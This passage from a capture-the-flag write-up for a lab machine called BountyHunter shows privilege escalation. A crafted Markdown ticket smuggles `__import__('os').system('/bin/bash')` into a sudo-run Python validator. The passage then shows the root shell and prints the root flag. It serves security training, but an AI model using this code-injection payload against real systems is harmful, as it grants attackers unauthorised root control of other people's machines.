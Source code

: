So, keeping all this in miund let's create our ticket `root.md`

```bash
# Skytrain Inc
## Ticket to 
__Ticket Code:__
**102+ 1 == 103 and __import__('os').system('/bin/bash') == FALSE
```

create a file `root.md` with the above content in `/tmp` folder and validate the ticket.

```bash
development@bountyhunter:/tmp$ ls
root.md   <--- ticket
systemd-private-89dd429b92d24870a498379258426fff-apache2.service-uCbbef
systemd-private-89dd429b92d24870a498379258426fff-systemd-logind.service-YdKkrg
systemd-private-89dd429b92d24870a498379258426fff-systemd-resolved.service-HwFR4e
systemd-private-89dd429b92d24870a498379258426fff-systemd-timesyncd.service-geSBFf
vmware-root_666-2731021219
development@bountyhunter:/tmp$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
root.md
Destination: 
root@bountyhunter:/tmp# whoami;hostname
root
bountyhunter
root@bountyhunter:/tmp#
```

That worked, we have succefully pwned the system, Go to the `root` folder to grab the `root` flag.

```bash
root@bountyhunter:/tmp# cd /root
root@bountyhunter:~# ls -la
total 36
drwx------  6 root root 4096 Jul 22 11:11 .
drwxr-xr-x 19 root root 4096 Jul 21 12:00 ..
lrwxrwxrwx  1 root root    9 Apr  5  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Apr  6  2021 .cache
drwxr-xr-x  3 root root 4096 Apr  5  2021 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4096 Apr  5  2021 .ssh
lrwxrwxrwx  1 root root    9 Jul 22 11:11 .viminfo -> /dev/null
-r--------  1 root root   33 Nov 19 20:21 root.txt   <--- root flag
drwxr-xr-x  3 root root 4096 Apr  5  2021 snap
root@bountyhunter:~# cat root.txt
f2437623c75173288eaf6c4c17412a7e
root@bountyhunter:~#
```

## Resources

| Topic | Url |
|-------|-----|
| A Deep Dive into XXE Injection | [Click here](https://www.synack.com/blog/a-deep-dive-into-xxe-injection/) |
